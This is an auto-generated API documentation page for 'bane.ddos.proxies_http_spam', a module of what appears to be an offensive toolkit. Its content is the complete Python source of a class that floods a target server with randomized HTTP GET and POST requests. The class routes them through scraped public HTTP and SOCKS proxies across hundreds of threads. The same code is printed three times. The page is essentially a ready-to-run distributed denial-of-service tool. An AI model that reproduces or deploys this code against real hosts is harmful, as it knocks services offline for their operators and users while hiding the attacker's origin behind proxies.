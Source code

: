 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.proxies_http_spam</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class prox_http_spam(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        method=3,
        threads_daemon=True,
        scraping_timeout=15,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        paths=[&#34;/&#34;],
        threads=256,
        post_min=5,
        post_max=10,
        post_field_max=100,
        post_field_min=50,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
    ):
        self.logs = logs
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.method = method
        self.stop = False
        self.counter = 0
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        self.paths = paths
        self.post_min = post_min
        self.post_max = post_max
        self.post_field_max = post_field_max
        self.post_field_min = post_field_min
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    for l in range(random.randint(self.round_min, self.round_max)):
                        if self.method == 3:
                            ty = random.randint(1, 2)
                        else:
                            ty = self.method
                        if ty == 1:
                            req = &#34;GET&#34;
                        else:
                            req = &#34;POST&#34;
                        m = setup_http_packet(
                            self.target,
                            ty,
                            self.paths,
                            self.post_field_min,
                            self.post_field_max,
                            self.post_min,
                            self.post_max,
                            self.cookie,
                            self.user_agents,
                        )
                        try:
                            if stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rBot: {} | Request: {} | Type: {} | Bytes: {}   &#34;.format(
                                        ipp, self.counter, req, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Bot: {} | Request: {} | Type: {} | Bytes: {}&#34;.format(ipp,lulzer_counter,req,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.proxies_http_spam.prox_http_spam"><code class="flex name class">
<span>class <span class="ident">prox_http_spam</span></span>
<span>(</span><span>u, p=80, cookie=None, user_agents=None, method=3, threads_daemon=True, scraping_timeout=15, http_list=None, socks4_list=None, socks5_list=None, paths=['/'], threads=256, post_min=5, post_max=10, post_field_max=100, post_field_min=50, timeout=5, round_min=1000, round_max=10000, interval=0.001, duration=60, logs=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class prox_http_spam(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        method=3,
        threads_daemon=True,
        scraping_timeout=15,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        paths=[&#34;/&#34;],
        threads=256,
        post_min=5,
        post_max=10,
        post_field_max=100,
        post_field_min=50,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
    ):
        self.logs = logs
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.method = method
        self.stop = False
        self.counter = 0
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        self.paths = paths
        self.post_min = post_min
        self.post_max = post_max
        self.post_field_max = post_field_max
        self.post_field_min = post_field_min
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    for l in range(random.randint(self.round_min, self.round_max)):
                        if self.method == 3:
                            ty = random.randint(1, 2)
                        else:
                            ty = self.method
                        if ty == 1:
                            req = &#34;GET&#34;
                        else:
                            req = &#34;POST&#34;
                        m = setup_http_packet(
                            self.target,
                            ty,
                            self.paths,
                            self.post_field_min,
                            self.post_field_max,
                            self.post_min,
                            self.post_max,
                            self.cookie,
                            self.user_agents,
                        )
                        try:
                            if stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rBot: {} | Request: {} | Type: {} | Bytes: {}   &#34;.format(
                                        ipp, self.counter, req, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Bot: {} | Request: {} | Type: {} | Bytes: {}&#34;.format(ipp,lulzer_counter,req,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.proxies_http_spam.prox_http_spam.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                bot_type = []
                if len(self.httplist) &gt; 0:
                    bot_type.append(&#34;h&#34;)
                if len(self.socks4list) &gt; 0:
                    bot_type.append(&#34;s4&#34;)
                if len(self.socks5list) &gt; 0:
                    bot_type.append(&#34;s5&#34;)
                z = random.choice(bot_type)
                if z == &#34;h&#34;:
                    line = random.choice(self.httplist)
                elif z == &#34;s4&#34;:
                    line = random.choice(self.socks4list)
                elif z == &#34;s5&#34;:
                    line = random.choice(self.socks5list)
                ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                s = socks.socksocket()
                if z == &#34;h&#34;:
                    s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                elif z == &#34;s4&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                elif z == &#34;s5&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                if z == &#34;h&#34;:
                    s.settimeout(self.timeout)
                s.connect((self.target, self.port))
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                for l in range(random.randint(self.round_min, self.round_max)):
                    if self.method == 3:
                        ty = random.randint(1, 2)
                    else:
                        ty = self.method
                    if ty == 1:
                        req = &#34;GET&#34;
                    else:
                        req = &#34;POST&#34;
                    m = setup_http_packet(
                        self.target,
                        ty,
                        self.paths,
                        self.post_field_min,
                        self.post_field_max,
                        self.post_min,
                        self.post_max,
                        self.cookie,
                        self.user_agents,
                    )
                    try:
                        if stop == True:
                            break
                        s.send(m.encode(&#34;utf-8&#34;))
                        self.counter += 1
                        if self.logs == True:
                            sys.stdout.write(
                                &#34;\rBot: {} | Request: {} | Type: {} | Bytes: {}   &#34;.format(
                                    ipp, self.counter, req, len(m)
                                )
                            )
                            sys.stdout.flush()
                            # print(&#34;Bot: {} | Request: {} | Type: {} | Bytes: {}&#34;.format(ipp,lulzer_counter,req,len(m)))
                        time.sleep(self.interval)
                    except:
                        break
                    time.sleep(self.interval)
                s.close()
            except:
                pass
            time.sleep(0.1)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.proxies_http_spam.prox_http_spam" href="#bane.ddos.proxies_http_spam.prox_http_spam">prox_http_spam</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.proxies_http_spam.prox_http_spam.attack" href="#bane.ddos.proxies_http_spam.prox_http_spam.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>